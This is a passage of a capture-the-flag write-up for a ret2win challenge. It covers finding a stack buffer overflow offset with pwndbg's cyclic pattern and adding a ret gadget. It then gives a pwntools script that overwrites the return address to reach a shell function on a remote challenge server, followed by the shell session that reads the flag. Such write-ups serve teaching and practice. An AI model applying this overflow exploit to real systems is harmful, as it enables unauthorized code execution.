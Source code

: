```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0         0x4011ce main+68
   1 0x6164616161616161
   2 0x6165616161616161
   3 0x6166616161616161
   4 0x6167616161616161
   5 0x6168616161616161
   6 0x6169616161616161
   7 0x616a616161616161
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```
This time we are going to pick the pattern that was stored in ```rbp``` and then we are going to add 8 bytes in order to be able to write adjacent memory from the stack pointer. 

```
pwndbg> cyclic -l aaaaaaca
Finding cyclic pattern of 8 bytes: b'aaaaaaca' (hex: 0x6161616161616361)
Found at offset 10
```
This would bring our offset to 18. Ideally we also need to check for a ret gadget since By overwriting the return address on the stack with the address of a ret gadget, we can control where the program execution will continue. And we want the flow to our win (shell) function.

With that we can craft our payload 

```
from pwn import *

binary = context.binary = ELF("./win", checksec=False)

# p = process()
p = remote("173.255.201.51", 3337)

buffer = b'A' * 18
win = p64(0x0401156)
ret = p64(0x040101a)

payload = buffer
payload += ret
payload += win

p.sendline(payload)
p.interactive()
```
Noice......

```
dexter@lab:~/the-lab/knights/rev$ python3 solve_win.py 
[+] Opening connection to 173.255.201.51 on port 3337: Done
[*] Switching to interactive mode
Can u find me ? i dont think so...!
$ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
$ ls
flag.txt
win
ynetd
$ cat flag.txt
KCTF{r3T_7o_W1n_iS_V3rRY_3AsY}
```
